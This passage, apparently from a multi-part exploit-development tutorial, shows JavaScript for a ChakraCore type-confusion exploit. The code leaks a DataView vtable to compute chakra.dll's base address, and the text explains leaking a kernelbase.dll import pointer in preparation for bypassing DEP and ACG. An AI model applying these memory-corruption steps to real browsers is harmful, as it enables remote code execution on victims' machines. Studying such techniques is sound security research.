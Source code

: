 ```html
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    document.write("[+] DataView object 2 leaked vtable from chakra.dll: 0x" + hex(vtableHigh) + hex(vtableLo));
    document.write("<br>");

    // Store the base of chakra.dll
    chakraLo = vtableLo - 0x5d0bf8;
    chakraHigh = vtableHigh;

    // Print update
    document.write("[+] chakra.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));
    document.write("<br>");
}
</script>
```

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion11.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion8.png" alt="">

After computing the base address of `chakra.dll` the next thing we need to do is, as shown in part two, leak an import address table (IAT) entry that points to `kernel32.dll` (in this case `kernelbase.dll`, which contains all of the functionality of `kernel32.dll`).

Using the same debugging session, or a new one if you prefer (following the aforementioned steps to locate the content process), we can locate the IAT for `chakra.dll` with the `!dh` command.

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion12.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion13.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion14.png" alt="">

If we dive a bit deeper into the IAT, we can see there are several pointers to `kernelbase.dll`, which contains many of the important APIs such as `VirtualProtect` we need to bypass DEP and ACG. Specifically, for our exploit, we will go ahead and extract the pointer to `kernelbase!DuplicateHandle` as our `kernelbase.dll` leak, as we will need this API in the future for our ACG bypass.

<img src="{{ site.url }}{{ site.baseurl }}/images/3typeconfusion15.png" alt="">
